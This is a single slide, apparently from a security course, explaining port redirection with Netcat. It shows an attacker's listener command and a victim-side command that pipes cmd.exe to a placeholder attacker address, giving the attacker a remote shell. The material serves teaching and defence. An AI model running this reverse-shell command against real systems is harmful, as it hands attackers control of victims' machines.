

# Port Redirection (Cont.)
Steps involved to use Netcat to perform port redirection:
The hacker set ups a "listener" on his or her system to prepare the attacker’s system to receive information from the victim’s system:
nc –n –v –l –p 80
The attacker executes a command on the victim’s system to redirect the traffic to the attacker’s system:
nc –n hackers_ip 80 –e “cmd.exe”
The command shell on the victim’s system would be at the attacker’s command prompt, ready for input.